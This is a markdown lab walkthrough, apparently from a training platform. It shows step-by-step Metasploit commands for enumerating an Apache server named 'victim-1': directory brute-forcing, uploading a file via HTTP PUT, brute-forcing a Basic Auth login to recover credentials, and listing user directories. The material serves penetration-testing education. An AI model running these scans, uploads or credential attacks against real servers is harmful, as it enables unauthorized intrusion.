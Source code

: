 # Apache Enumeration with Metasploit

This lab demonstrates how to enumerate an Apache web server using different Metasploit auxiliary modules. Each module reveals useful information such as server version, hidden directories, login pages, and user directories.

---

## 🧪 Lab Environment
- Target: `victim-1` (Apache 2.4.18 on Ubuntu)
- Tool: `Metasploit Framework`
- Goal: Perform enumeration using Metasploit modules

---

## 🔍 Step-by-Step Enumeration

### 🟢 Step 1: Check Target is Alive
```bash
ping -c 5 victim-1
```

---

### 🧩 Module 1: `http_version`
```bash
use auxiliary/scanner/http/http_version
set RHOSTS victim-1
run
```
> Detects Apache version: `Apache/2.4.18 (Ubuntu)`

---

### 🧩 Module 2: `robots_txt`
```bash
use auxiliary/scanner/http/robots_txt
set RHOSTS victim-1
run
```
> Found disallowed paths:
```
/data
/secure
```

---

### 🧩 Module 3: `http_header`
```bash
use auxiliary/scanner/http/http_header
set RHOSTS victim-1
run
```

#### 🔁 With Target Path:
```bash
set TARGETURI /secure
```
> `/secure` is protected with Basic Auth

---

### 🧩 Module 4: `brute_dirs`
```bash
use auxiliary/scanner/http/brute_dirs
set RHOSTS victim-1
run
```
> Found paths: `/doc`, `/pro`

---

### 🧩 Module 5: `dir_scanner`
```bash
use auxiliary/scanner/http/dir_scanner
set RHOSTS victim-1
set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```

---

### 🧩 Module 6: `dir_listing`
```bash
use auxiliary/scanner/http/dir_listing
set RHOSTS victim-1
set PATH /data
run
```
> Directory listing enabled for `/data`

---

### 🧩 Module 7: `files_dir`
```bash
use auxiliary/scanner/http/files_dir
set RHOSTS victim-1
set VERBOSE false
run
```

---

### 🧩 Module 8: `http_put` (File Upload)
```bash
use auxiliary/scanner/http/http_put
set RHOSTS victim-1
set PATH /data
set FILENAME test.txt
set FILEDATA "Welcome To AttackDefense"
run
```

#### 📥 Then verify upload:
```bash
wget http://victim-1/data/test.txt
cat test.txt
```

#### ❌ Delete uploaded file:
```bash
set ACTION DELETE
```

---

### 🧩 Module 9: `http_login`
```bash
use auxiliary/scanner/http/http_login
set RHOSTS victim-1
set AUTH_URI /secure/
set VERBOSE false
run
```
> Valid credentials found: `bob:123321`

---

### 🧩 Module 10: `apache_userdir_enum`
```bash
use auxiliary/scanner/http/apache_userdir_enum
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set RHOSTS victim-1
set VERBOSE false
run
```

> Found user directories:
- rooty
- bin
- games
- nobody
- sync
- …

---

## ✅ Summary

We used 10 different auxiliary modules in Metasploit to:
- Detect Apache version
- Discover hidden paths and login pages
- Upload and remove files
- Enumerate usernames and home directories
- Identify valid login credentials
